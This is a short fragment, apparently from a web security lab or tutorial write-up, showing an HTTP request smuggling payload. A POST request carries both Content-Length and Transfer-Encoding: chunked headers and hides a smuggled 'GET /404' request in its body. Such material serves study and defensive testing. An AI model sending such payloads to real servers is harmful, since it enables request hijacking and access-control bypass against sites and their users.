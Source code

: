 ![img](media/c50f40684ea658e1ee677bfd30e72a7a.png)

It is possible to redirect to /404 using the same payload as in the example,
setting the protocol to HTTP/1:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST / HTTP/1.1
...
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
